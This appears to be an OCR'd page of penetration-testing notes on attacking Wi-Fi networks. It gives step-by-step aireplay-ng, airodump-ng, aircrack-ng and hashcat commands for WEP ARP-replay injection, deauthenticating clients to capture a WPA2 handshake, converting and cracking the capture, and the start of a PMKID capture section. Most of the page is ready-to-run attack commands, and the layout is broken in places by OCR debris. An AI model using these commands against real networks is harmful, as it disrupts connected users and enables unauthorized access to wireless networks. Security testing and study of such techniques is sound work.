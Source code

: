 ARP Sniffing and injection is another method

aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon

Using aircrack-ng it is possible to directly crack the WEP Key
`aircrack-ng outfile -w wordlist`

Using the aircrack-ng suite
You can first focus one AP using airodump-ng (see monitoring section)
Here, you want to get the 4-way WPA Handshake
It requires network traffic between the AP and one device

#### Dumping

`sudo airodump-ng wlan0mon --bssid xx:xx:xx:xx:xx:xx –c 1 –w outfile`

#### Deauth connected devices to initiate authentication process and try to get the handshake

```
aireplay-ng --deauth 15 -a <TARGET_AP_MAC> wlan0mon
aireplay-ng -0 15 -a <TARGET_AP_MAC> wlan0mon 
```

⧉ Copied!

```
In the airodump-ng console, the WPA handshake will appear once captured 
```

Cracking can be done using aircrack-ng
`aircrack-ng outfile -w wordlist`

```
But also using other tools like hashcat.The outfile needs to be an HCCAPX file
Hashcat utils provide a binary to convert 
```

.
`cap2hccapx.exe WPA2_test.cap-01.cap WPA2_test.hccapx`

#### Then you can crack it like a normal hash (see hashcat section)

.\\hashcat64.exe -m 2500 WPA2_test.hccapx wordlist.txt --force -O

#### Attacking WPA2 using PMKID

#### You don't need any network traffic

#### Using hcxtools and hcxdumptool

#### Monitor mode

sudo airmon-ng start wlan0mon

#### PMKID capture

#### It can take a while to capture PKMID (several minutes++)
